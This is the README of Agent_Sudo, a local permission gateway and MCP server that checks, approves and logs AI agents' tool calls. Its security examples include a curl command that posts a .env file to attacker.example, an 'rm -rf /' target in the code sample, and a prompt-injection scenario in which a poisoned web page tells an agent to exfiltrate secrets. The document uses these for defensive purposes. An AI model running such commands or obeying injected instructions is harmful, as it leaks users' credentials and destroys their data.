


# Agent_Sudo

<p align="center">
  
</p>

<p align="center">
  <a href="https://pypi.org/project/agent-sudo-mcp/"></a>
  <a href="https://registry.modelcontextprotocol.io/v0/servers?search=agent-sudo-mcp"></a>
  <a href="https://glama.ai/mcp/servers/Kisyntra/Agent_Sudo"></a>
  <a href="LICENSE"></a>
</p>

`Agent_Sudo` is a local permission gateway for AI agents that validates, authorizes, and controls tool execution before actions are run.

## Quick Install for MCP Clients

Install the published MCP server:

```bash
pipx install agent-sudo-mcp
agent-sudo --version
agent-sudo init-approval
agent-sudo workspace set /ABS/PATH/TO/your/project
which agent-sudo-mcp
```

Add Agent_Sudo to Claude Desktop at `~/Library/Application Support/Claude/claude_desktop_config.json`, using the absolute path returned by `which agent-sudo-mcp`:

```json
{
  "mcpServers": {
    "agent-sudo": {
      "command": "/ABS/PATH/TO/agent-sudo-mcp",
      "args": []
    }
  }
}
```

Restart Claude Desktop, ask it to use an Agent_Sudo tool, then verify the action was routed through the gateway:

```bash
agent-sudo audit list
```

If the action is not listed, it bypassed Agent_Sudo. For the full setup and trust-boundary details, see the [Claude Desktop Setup Guide](docs/integrations/claude_desktop_setup.md).

## Discoverability & Registry Status

*   📦 **PyPI Package**: [agent-sudo-mcp v0.4.3 on PyPI](https://pypi.org/project/agent-sudo-mcp/)
*   ✅ **Official MCP Registry**: Active as `io.github.Kisyntra/agent-sudo-mcp` at [registry.modelcontextprotocol.io](https://registry.modelcontextprotocol.io/v0/servers?search=agent-sudo-mcp)
*   🌐 **Glama Registry Listing**: Live listing at [glama.ai/mcp/servers/Kisyntra/Agent_Sudo](https://glama.ai/mcp/servers/Kisyntra/Agent_Sudo)
*   🛠️ **MCP Server Integration**: Read the [MCP Server Setup Guide](docs/integrations/mcp_server_setup.md)
*   🏢 **GitHub Organization**: Part of the [Kisyntra](https://github.com/Kisyntra) ecosystem

---

## Demo



# Choose Your Path

Whether you want to protect your desktop agent, secure your custom Python agent application, or run security operations on agent audit logs, choose the path that fits your use case:

### 1. Claude Desktop / MCP Users
For developers running Claude Desktop or other Model Context Protocol (MCP) clients who want to secure local filesystem/command execution.
*   **Installation**: Standard `pipx install agent-sudo-mcp` (recommended) or `pip install agent-sudo-mcp`.
*   **Configuration**: Add the Agent_Sudo stdio server to your `claude_desktop_config.json`.
*   **Guide**: See the [MCP Server Setup Guide](docs/integrations/mcp_server_setup.md) and [Claude Desktop Setup Guide](docs/integrations/claude_desktop_setup.md).

### 2. Python Agent Developers
For developers building autonomous agents using frameworks like PydanticAI, LangGraph, or the OpenAI Agents SDK who want to enforce execution policies in code.
*   **30-Second Code Example**:
    ```python
    from agent_sudo.gateway import PermissionGateway
    from agent_sudo.models import ActionRequest
    from agent_sudo.policy import load_default_policy

    # Initialize gateway with local policy rules
    gateway = PermissionGateway(load_default_policy())

    # Gate tool execution in your application
    request = ActionRequest(
        actor="my-agent",
        source="user",
        tool="shell",
        action="run_shell_command",
        target="rm -rf /",
        payload_summary="recursively delete the filesystem root",
    )
    result = gateway.evaluate(request)
    if result.decision.name == "DENY":
        raise PermissionError(f"Blocked by Agent_Sudo: {result.reason}")
    ```
*   **Framework Examples**:
    *   [PydanticAI Gating Example](examples/pydantic_ai/)
    *   [OpenAI Agents SDK Gating Example](examples/openai_agents_sdk/)
    *   [LangGraph Integration Guide](docs/examples/langgraph.md) ([examples/langgraph_integration.py](examples/langgraph_integration.py))
    *   [agent-runtimes Hook Plugin Setup](examples/agent_runtimes/)

### 3. CLI / Security Operations
For system administrators and security engineers who want to audit agent logs, manage credentials, and configure temporary delegation tokens.
*   **Install**: `pipx install agent-sudo-mcp` (recommended) or `pip install agent-sudo-mcp`
*   **Initialize**: `agent-sudo init-approval` (sets up local passphrase for CLI confirmations)
*   **Built-in Demo**: Run `agent-sudo demo` to see policies in action.
*   **Review Activity**: Run `agent-sudo audit list` to see what your agent did — a readable table of each decision (time, decision, actor, action, target, reason). Add `--limit N` or `--json`.
*   **Audit Verification**: Run `agent-sudo verify-audit <path/to/audit.jsonl>` to verify cryptographic hash chain integrity.

---

## Supported Framework Examples

Agent_Sudo has pre-built example templates showing in-process integration for major Python agent frameworks:

*   ✓ **[OpenAI Agents SDK](examples/openai_agents_sdk/)** — pre-wrapping assistant tool functions.
*   ✓ **[PydanticAI](examples/pydantic_ai/)** — gating tool execution using standard Python decorators.
*   ✓ **[LangGraph](docs/examples/langgraph.md)** — securing tool node execution and graph states ([examples/langgraph_integration.py](examples/langgraph_integration.py)).
*   ✓ **[agent-runtimes](examples/agent_runtimes/)** — registering the local tool hooks handler in config.

---

# Why Agent_Sudo If I Already Use Docker?

A common question from security engineers and developers is: *"Why do I need a policy gateway if I am already isolating my agents in a Docker container, gVisor sandbox, or Firecracker microVM?"*

The difference is a separation of concerns:
*   **Docker/Firecracker/Sandboxes** answer: **"Where can code run?"** They isolate the process from the host operating system, preventing an agent from escaping to your local machine, but they do *not* monitor what the agent is doing inside the sandbox.
*   **Agent_Sudo** answers: **"Should this action be allowed?"** It operates at the intent and application logic level, evaluating the context, provenance, and authorization rules of individual actions before execution.

### Practical Examples

Even inside a perfectly isolated Docker container, an agent with raw tool access can:
1.  **Exfiltrate Secrets**: Run `curl -X POST -d @.env https://attacker.example` to leak your API keys. A VM allows outbound network requests by default; Agent_Sudo detects the source trust and target, blocking the exfiltration.
2.  **Write/Inject Code**: Edit your project's `main.py` to insert a backdoor or dependency. While Docker prevents host pollution, it cannot prevent the agent from corrupting your project workspace. Agent_Sudo flags critical file edits and requires human confirmation.
3.  **Perform Social Engineering**: Send automated emails, Slack messages, or Discord alerts to external users containing phishing links under the guise of the agent owner. Agent_Sudo gates communication tools based on user approvals.
4.  **Exceed Delegation Scopes**: An agent running a automated build pipeline might accidentally or maliciously call tools outside its intended scope. Agent_Sudo uses **temporary delegation tokens** to automatically lock the agent out once its quota or time-to-live expires.

These two layers are **complementary**: use Docker/VM sandboxes to isolate environment resources, and use Agent_Sudo to validate tool execution intent. For a detailed technical breakdown, see [Agent_Sudo vs. Container/VM Sandboxes](docs/comparison/sandboxes.md).

---

> [!IMPORTANT]
> **Security Boundaries Notice**:
> - **Gateway, Not a Sandbox**: `Agent_Sudo` is a local permission gateway and policy engine; it is **not** an OS-level sandbox or container. It gates tool access but does not isolate filesystem or process resources.
> - **Best-Effort Shell Filtering**: Shell command policy checks are best-effort unless reinforced by OS-level containment or custom runtime sandboxes.
> - **Client Runtime Bypass**: Native tools registered directly in host runtimes (e.g., Eino, Hermes) can bypass `Agent_Sudo` entirely unless those tools are disabled or explicitly routed through this gateway.

---

## Trust Boundaries: What Is and Is Not Protected

Agent_Sudo only sees the tool calls that are **routed through it**. This is the single most important thing to understand before relying on it.

| ✅ Protected | ❌ Not protected |
| :--- | :--- |
| Tool calls made through the `agent-sudo` MCP server (file reads/writes, shell, network) — gated, classified, and logged | A client's **own native/built-in tools** (e.g. Claude Desktop's built-in file or web tools) that don't go through the `agent-sudo` server |
| Any runtime where dangerous tools are disabled or explicitly proxied through the gateway | **Other MCP servers** you've installed that expose filesystem/shell/network directly to the agent |
| Intent-level decisions: provenance, approval gates, delegation scopes, audit | OS-level isolation (use Docker/VM for that — see [comparison](docs/comparison/sandboxes.md)) |

**How to make sure you're actually protected:**

1. Route the agent's risky capabilities through the `agent-sudo` MCP server (see the [Claude Desktop Setup Guide](docs/integrations/claude_desktop_setup.md)).
2. Disable or remove **other** tools that grant the agent direct file/shell/network access and bypass the gateway.
3. **Verify with the audit log.** Ask the agent to perform an action, then run `agent-sudo audit list`. If the action is recorded, it went through the gateway. **If it is *not* in the log, it bypassed Agent_Sudo and was not protected** — that capability still needs to be disabled or routed through the gateway.

This is a deliberate scope choice, not a defect: Agent_Sudo governs *intent and authorization* for the tools it mediates. Pair it with OS-level isolation (Docker/Firecracker) for environment containment.

---

## Core Features

- **Approval Gates**: Prompts for interactive confirmation (CLI yes/no) on sensitive actions, and requires a local passphrase for critical actions (e.g., running shell commands).
- **Protected Reads**: Automatically blocks reads targeting private files such as credentials, configuration folders, and shell startup scripts.
- **Critical Write Detection**: Upgrades ordinary file writes to critical status if the target is executable code or configuration files.
- **Scoped Delegation**: Allows humans to issue temporary, resource-limited permission tokens (e.g., allow read access to `/path/to/project` for 2 hours, max 10 uses).
- **Audit Logs**: Records all tool attempts and gateway decisions to a local JSONL log file secured with a SHA-256 hash chain to detect log tampering. Review them in a human-readable table with `agent-sudo audit list`, or verify integrity with `agent-sudo verify-audit`.
- **Claude Desktop / MCP Support**: Implements the Model Context Protocol (MCP) to plug directly into Claude Desktop as a stdio server.

---

## Try it in 30 Seconds

Verify how `Agent_Sudo` classifies tool risk and makes gateway decisions using our built-in demo (no repository clone or config files needed):

```bash
# Run the built-in gateway interactive demo
agent-sudo demo
```

### Flagship Demo: Stop Prompt-Injection Exfiltration

See provenance-based blocking in ~60 seconds. An agent reads a poisoned web page that tells it to exfiltrate your `.env`; Agent_Sudo **denies** it (untrusted origin) while **allowing** the user's own work — and writes a tamper-evident audit log.


The demo lives in the repository (it is not part of the PyPI package), so clone first:

```bash
git clone https://github.com/Kisyntra/Agent_Sudo
cd Agent_Sudo/examples/exfil_demo && python demo.py
```

Walkthrough and expected output: [`examples/exfil_demo/`](examples/exfil_demo/).

---

## 5-Minute Quickstart

### 1. Install Agent_Sudo

Choose the installation method based on how you intend to use the gateway:

#### For CLI Users & Claude Desktop (MCP)
To run the CLI tools or the MCP server, install using `pipx` (recommended) to automatically manage your executable path and avoid global dependency conflicts:

```bash
pipx install agent-sudo-mcp
```
*Note: If the `agent-sudo` command is not found after installation, make sure your pipx binary path is in your environment by running `pipx ensurepath` and restarting your terminal.*

#### For Python SDK / Library Integration
If you are integrating Agent_Sudo programmatically within your agent codebase (e.g., PydanticAI, LangGraph), install the package into your project environment:

```bash
pip install agent-sudo-mcp
```
*(If you are developing or running from source, see the [Claude Desktop Setup Guide](docs/integrations/claude_desktop_setup.md) for editable installation).*

Verify the installation:
```bash
agent-sudo --version
agent-sudo doctor
```

### 2. Initialize the Approval Passphrase
Set up a secure passphrase for approving critical actions (e.g. shell command execution):

```bash
agent-sudo init-approval
```
> [!IMPORTANT]
> This passphrase is hashed locally (PBKDF2-HMAC-SHA256) and cannot be recovered. If lost, you must reset the approval configuration.

### 3. Set Your Workspace
Persist the fixed workspace that Claude Desktop and other MCP clients should use:

```bash
agent-sudo workspace set /ABS/PATH/TO/your/project
```

Verify that the saved workspace is the one you expect:

```bash
agent-sudo workspace show
```

### 4. Wire It Into Claude Desktop (required to actually be protected)

> [!WARNING]
> **Installing the package does not protect anything by itself.** Until you route your agent's tools through Agent_Sudo, it sees no actions and gates nothing. Steps 1–3 only install and configure the CLI — you are *not* yet protected.

Add the MCP server to `~/Library/Application Support/Claude/claude_desktop_config.json` (run `which agent-sudo-mcp` to get the absolute path). If you already ran `agent-sudo workspace set`, you can omit `--workspace`; the MCP server reads the persisted value from `~/.agent-sudo/config.json`.

```json
{
  "mcpServers": {
    "agent-sudo": {
      "command": "/ABS/PATH/TO/agent-sudo-mcp",
      "args": []
    }
  }
}
```

Restart Claude Desktop, then **confirm your agent's actions are actually flowing through the gateway**:

```bash
# After asking Claude to do something, you should see it here:
agent-sudo audit list
```

If an action you asked the agent to perform is **not** in `agent-sudo audit list`, it bypassed the gateway and was **not** protected — see the [Claude Desktop Setup Guide](docs/integrations/claude_desktop_setup.md) (full options + trust boundary) and [Trust Boundaries](#trust-boundaries-what-is-and-is-not-protected) below.

---

## Contributor Setup

If you are developing `Agent_Sudo` or integrating it with a custom runtime:

```bash
# Clone the repository
git clone https://github.com/Kisyntra/Agent_Sudo.git
cd Agent_Sudo

# Install in editable mode
python3 -m pip install -e .
```

To run unit tests:
```bash
python3 -m unittest discover -s tests
```

---

# Ecosystem

We work with agent runtime maintainers and external implementers to define portable authorization and audit standards:

*   **Official Integrations**:
    *   **[agent-runtimes](https://github.com/datalayer/agent-runtimes)** — Merged (PR #98) local plugin hook handler (`agent_sudo_local`).
*   **Active Implementations**:
    *   **[LexFlow](https://github.com/VforVitorio/LexFlow)** — In-progress design review (#124) for native JS/TS client audit logging and verification.
*   **Research & Local PoC**:
    *   **[Hermes](https://github.com/NousResearch/hermes-agent)** — Experimental architecture research (#34992) targeting registry-level dispatch gating.
*   **Public Listings**:
    *   **[Official MCP Registry](https://registry.modelcontextprotocol.io/v0/servers?search=agent-sudo-mcp)** — Active listing as `io.github.Kisyntra/agent-sudo-mcp`.
    *   **[Glama MCP Registry](https://glama.ai/mcp/servers/Kisyntra/Agent_Sudo)** — Active, verified listing with introspection tests.

For a full compatibility matrix and integration details, see the [Ecosystem Status Guide](docs/ecosystem/ecosystem_status.md).

---

## Documentation Directory

| Directory / Section | Topic | Key Files |
| :--- | :--- | :--- |
| **First Run** | Getting started tutorial | [docs/first_run.md](docs/first_run.md) |
| **Troubleshooting** | Diagnostics and resolution steps | [docs/troubleshooting.md](docs/troubleshooting.md) |
| **Integrations** | Connecting to runtimes and IDEs | [docs/integrations/overview.md](docs/integrations/overview.md) • [Ecosystem Status](docs/ecosystem/ecosystem_status.md) • [Outreach Playbook](docs/ecosystem/outreach_playbook.md) • [Adoption Dashboard](docs/ecosystem/adoption_dashboard.md) • [Discoverability Notes](docs/ecosystem/discoverability_notes.md) • [LexFlow Readiness](docs/ecosystem/lexflow_readiness.md) • [LexFlow Checklist](docs/ecosystem/lexflow_compatibility_checklist.md) • [Claude Desktop](docs/integrations/claude_desktop_setup.md) • [MCP Setup](docs/integrations/mcp_server_setup.md) • [agent-runtimes](docs/integrations/agent-runtimes.md) • [Hermes (Research)](docs/integrations/hermes-research.md) |
| **Framework Integrations** | Direct SDK gating for agent frameworks | [LangGraph Integration Guide](docs/examples/langgraph.md) • [examples/langgraph_integration.py](examples/langgraph_integration.py) |
| **Architecture** | Abstractions and core pipelines | [docs/architecture/overview.md](docs/architecture/overview.md) • [Layered Architecture](docs/architecture/layered_architecture.md) • [Enforcement Model](docs/architecture/enforcement_model.md) |
| **Specifications** | Language-agnostic standard models | [spec/runtime_compatibility_levels.md](spec/runtime_compatibility_levels.md) • [Universal Schema](spec/universal_schema.md) • [Policy & Audit](spec/policy_audit_schema.md) • [Interoperability Test Kit](docs/interop/interoperability_test_kit.md) |
| **Security** | Threat modeling and limits | [docs/architecture/security_model.md](docs/architecture/security_model.md) |
| **Comparisons** | Policy vs Container Sandboxes | [Docker & Firecracker comparison](docs/comparison/sandboxes.md) |

---

## CI/CD & Release Automation

`Agent_Sudo` uses GitHub Actions to automate checks and distribution:
- **Continuous Integration**: The CI workflow runs on all pushes and pull requests targeting the `main` branch, running the unittest suite, scanning for personal path disclosures, executing `git diff --check` whitespace validation, and verifying Python package compilation.
- **Automated Releases**: Releases are generated automatically when a git tag matching `v*` is pushed.
  - Release candidate tags (e.g. `v0.4.0-rc12`) are published as GitHub Prereleases and are explicitly excluded from being marked as the latest release.
  - Release notes are automatically parsed and extracted from the matching version entry in `CHANGELOG.md`.

<!-- mcp-name: io.github.Kisyntra/agent-sudo-mcp -->
